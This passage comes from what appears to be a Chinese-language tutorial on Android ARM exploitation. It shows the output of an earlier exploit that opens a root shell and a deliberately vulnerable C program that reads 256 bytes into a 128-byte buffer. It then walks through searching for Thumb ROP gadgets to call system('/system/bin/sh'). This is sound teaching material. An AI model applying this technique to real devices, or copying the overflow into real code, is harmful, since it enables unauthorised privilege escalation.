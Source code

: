 执行效果如下：

```
$ python level6.py 
[+] Opening connection to 127.0.0.1 on port 10001: Done
[*] Switching to interactive mode
$ /system/bin/id
uid=0(root) gid=0(root) context=u:r:shell:s0

```

0x02 寻找thumb gadgets
====================

* * *

下面我们来看第二个程序level7.c：

```
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

char *str="/system/bin/sh";

void callsystem()
{
system("id");
}

void vulnerable_function() {
char buf[128];
read(STDIN_FILENO, buf, 256);
}

int main(int argc, char** argv) {
if (argc==2&&strcmp("passwd",argv[1])==0)
callsystem();
write(STDOUT_FILENO, "Hello, World\n", 13);    
vulnerable_function();
}

```

在这个程序里，我们即使知道密码，也仅仅只能执行”id”这个命令，我们的目标是获取到一个可以使用的shell，也就是执行`system("/system/bin/sh")`。怎么办呢？这里我们就需要来寻找可利用的gadgets，先让r0指向`"/system/bin/sh"`这个字符串的地址，然后再调用system()函数达到我们的目的。

如何寻找gadgets呢？虽然用ida或者objdump也可以进行查找，但比较费时费力，这里我推荐使用ROPGadget。因为level7默认会编译成thumb指令，所以我们也采用thumb模式查找gadgets:

```
$ ROPgadget --binary=./level7 --thumb | grep "ldr r0"
0x00008618 : add r0, pc ; b #0x862e ; ldr r0, [pc, #0x10] ; add r0, pc ; ldr r0, [r0] ; b #0x8634 ; movs r0, #0 ; pop {pc}
0x0000861e : add r0, pc ; ldr r0, [r0] ; b #0x862e ; movs r0, #0 ; pop {pc}
0x0000893e : add r3, sp, #0xc ; movs r1, #0 ; str r3, [sp] ; adds r3, r1, #0 ; bl #0x8916 ; ldr r0, [sp, #0xc] ; add sp, #0x14 ; pop {pc}
0x000090fe : add r3, sp, #0xc ; str r3, [sp] ; movs r2, #0xc ; adds r3, r1, #0 ; bl #0x8916 ; ldr r0, [sp, #0xc] ; add sp, #0x14 ; pop {pc}
0x000093ca : add sp, #0x10 ; pop {r4, pc} ; push {r3, lr} ; bl #0x911c ; ldr r0, [r0, #0x48] ; pop {r3, pc}
0x00008826 : add sp, r3 ; pop {r4, r5, r6, r7, pc} ; mov r8, r8 ; stc2 p15, c15, [r4], #-0x3fc ; ldr r0, [r0, #0x44] ; bx lr
……

```
